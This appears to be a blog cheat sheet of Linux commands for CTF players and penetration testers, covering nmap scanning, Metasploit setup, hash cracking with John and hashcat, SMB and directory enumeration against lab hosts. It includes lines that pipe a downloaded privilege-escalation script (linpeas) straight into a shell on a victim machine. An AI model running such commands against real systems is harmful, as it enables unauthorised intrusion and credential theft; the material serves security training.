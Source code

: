 ```yaml
---
title: Linux Commands for Hacking and Security
publishDate: 2023-08-08
author: Abhinav Kumar
image:   '~/assets/images/bash.jpeg'
excerpt: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).
Updated - October 02, 2023.

#### Table of Contents

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost

# Store scan results for ports separated by comma.
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 cronos.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Check which ports are found
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo $ports
22,53,80,9227,19041,30100

# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo nmap -sC -sV -A -O -T5 -p$ports cronos.htb
```



### Metasploit

Start Metasploit with database
```bash
# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ systemctl start postgresql

┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ msfdb init
Creating database user 'msf'
Enter password for new role:
Enter it again:
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema
```

#### Metasploit Shell Upgrade to Meterpreter

```bash
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1
```

Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```




### Extract Files

Gz Files

```bash
gunzip archive.gz
```

tar Files
```bash
tar –xvzf archive.tar.gz
```

### SSH Connection 

```bash
ssh username@host -oHostKeyAlgorithms=+ssh-dss
```


### Text Filter

```bash
grep -i #]- inlcude
grep -v #]- exclude
```
### SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse target_HOST
```

```bash
smbclient //IP/directory
```

Mount NFS Share

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
### netcat

get version via banner
```bash
nc IP port
```
### Linpeas

#### From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

### Directory Enumeration

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -mc 200,403 -c -t 400

                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ gobuster dir -u  http://cronos.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 200 --quiet

```

### Reading a File

```bash
cat
head
head -20 filepathandname
tail filename
tail -20 filename
cat filename | grep "word_to_filter"
more
less
```

### Replace in File

```bash
sed /s/wordtoreplace/wordtoreplacewith/g /filepath > outputfilepath
```